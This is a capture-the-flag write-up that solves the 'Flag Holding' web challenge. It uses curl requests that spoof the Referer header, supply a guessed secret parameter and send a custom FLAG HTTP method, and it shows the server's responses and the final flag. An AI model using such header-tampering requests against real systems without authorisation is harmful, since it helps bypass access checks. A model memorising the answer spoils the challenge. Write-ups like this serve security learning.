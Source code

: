 # Preface
![](../images/flagholding.png)
# Flag Holding
The first thing I did when attempting this challenge was to `curl` `http://18.184.219.56:8080/`. So I typed:

```txt
curl http://18.184.219.56:8080/
```
Which resulted in this output:

```txt
<!DOCTYPE html>
<html>
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title>Flag holding</title>
        <style>
                body {
                        background-color: #1a4a5e;
                }
                .msg {
                        text-align: center;
                        font-family: sans-serif;
                        color: white;
                        font-size: 40px;
                        line-height: 500px;
                }
        </style>
</head>
<body>
        <div class="msg" style="">
                You are not coming from "http://flagland.internal/".    </div>
</body>
</html>
```
Seems like I needed to be **Referred** from `http://flagland.internal/`. Therefore I typed:

```txt
curl -H "Referer: http://flagland.internal/" http://18.184.219.56:8080/
```
Simply put, this command is like asking a website for information but pretending you came from another website. The `-H "Referer: http://flagland.internal/"` infroms the server that the curl command is coming from the referring website `http://flagland.internal/`. The output of the command was:
```txt
<!DOCTYPE html>
<html>
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title>Flag holding</title>
        <style>
                body {
                        background-color: #1a4a5e;
                }
                .msg {
                        text-align: center;
                        font-family: sans-serif;
                        color: white;
                        font-size: 40px;
                        line-height: 500px;
                }
        </style>
</head>
<body>
        <div class="msg" style="">
                Unspecified "secret".   </div>
</body>
</html>
```
Looks like I need a secret to continue, so I typed:
```txt
curl -H "Referer: http://flagland.internal/" http://18.184.219.56:8080?secret  
```
The `?secret` portion sends the paramter `secret` to the server without any value. I did this to see if the server would give me anything if the secret was nothing. After I executed the command, the output was:
```txt
<!DOCTYPE html>
<html>
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title>Flag holding</title>
        <style>
                body {
                        background-color: #1a4a5e;
                }
                .msg {
                        text-align: center;
                        font-family: sans-serif;
                        color: white;
                        font-size: 40px;
                        line-height: 500px;
                }
        </style>
</head>
<body>
        <div class="msg" style="">
                Incorrect secret. <!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... -->   </div>
</body>
</html>
```
Both the server and my "browser" (the curl command) both agree on the `HTTP` protocol. Therefore the `secret` parameter must have the value of `HTTP` as the secret to enter. So I typed:
```txt
curl -H "Referer: http://flagland.internal/" http://18.184.219.56:8080?secret=HTTP
```
The `secret=HTTP` sends to the server the parameter `secret` with the value `HTTP`. The server will then check to see if this is the correct value. After I executed the command, the result was:
```txt

<!DOCTYPE html>
<html>
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title>Flag holding</title>
        <style>
                body {
                        background-color: #1a4a5e;
                }
                .msg {
                        text-align: center;
                        font-family: sans-serif;
                        color: white;
                        font-size: 40px;
                        line-height: 500px;
                }
        </style>
</head>
<body>
        <div class="msg" style="">
                Sorry we don't have "GET" here but we might have other things like "FLAG".      </div>
</body>
</html>
```
Since `GET` is an HTTP request method, I would need to use `curl` with the `-X` method, which specifies a request method. Request methods are **always** in full caps. Since `FLAG` is in all caps, I typed:
```txt
curl -X FLAG  -H "Referer: http://flagland.internal/" http://18.184.219.56:8080?secret=HTTP
```
After I executed the command, the output was:
```txt
<!DOCTYPE html>
<html>
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title>Flag holding</title>
        <style>
                body {
                        background-color: #1a4a5e;
                }
                .msg {
                        text-align: center;
                        font-family: sans-serif;
                        color: white;
                        font-size: 40px;
                        line-height: 500px;
                }
        </style>
</head>
<body>
        <div class="msg" style="">
                MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f} </div>
</body>
</html>
```
Theres the flag. I then entered:
```txt
MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}
```
into the challenge box and the result was:
![](../images/flag-holding-part-5.png)

Done.

